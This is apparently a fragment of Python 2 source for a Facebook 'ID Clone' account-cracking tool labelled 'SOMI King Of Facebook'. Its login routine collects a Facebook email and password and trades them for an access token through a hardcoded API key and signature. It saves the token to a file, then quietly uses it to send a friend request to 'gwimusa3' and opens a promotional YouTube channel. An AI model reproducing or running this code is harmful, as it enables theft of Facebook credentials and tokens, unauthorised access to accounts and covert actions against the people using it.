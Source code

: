 		    jalan('\033[1;96m▬10%')
    jalan("\033[1;96m▬▬20%")
    jalan('\033[1;96m▬▬▬30%')
    jalan('\033[1;96m▬▬▬▬40%')
    jalan("\033[1;96m▬▬▬▬▬50%")
    jalan("\033[1;96m▬▬▬▬▬▬60%    \033[1;91m ID Clone")
    jalan('\033[1;96m▬▬▬▬▬▬▬70%')
    jalan('\033[1;96m▬▬▬▬▬▬▬▬80%')
    jalan('\033[1;96m▬▬▬▬▬▬▬▬▬90%')
    jalan('\033[1;96m▬▬▬▬▬▬▬▬▬100%')
		jalan(' \033[1;97m   ✧ \033[1;91mWarning: \033[1;95mUse a New Account To Login' )
		jalan(' \033[1;97m   ✧ \033[1;93m👉 : \033[1;93mSOMI King Of Facebook' ) 
		
		print('	' )
		print('      \033[1;97m      ✧ \x1b[1;91mLogin With Facebook\x1b[1;97m ✧')
		print('	' )
		id = raw_input('\033[1;97m✧ \x1b[1;96mID/Email\x1b[1;97m: \x1b[1;97m')
		pwd = raw_input('\033[1;97m✧ \x1b[1;95mPassword\x1b[1;97m: \x1b[1;97m')
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\x1b[1;97mThere is no internet connection"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;97mSuccessfully Logged In'
				os.system('xdg-open https://m.youtube.com/channel/UCElYTLsUjYpkBbCgu3kZd8Q')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\x1b[1;97mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\x1b[1;31mYour Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\x1b[1;31mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)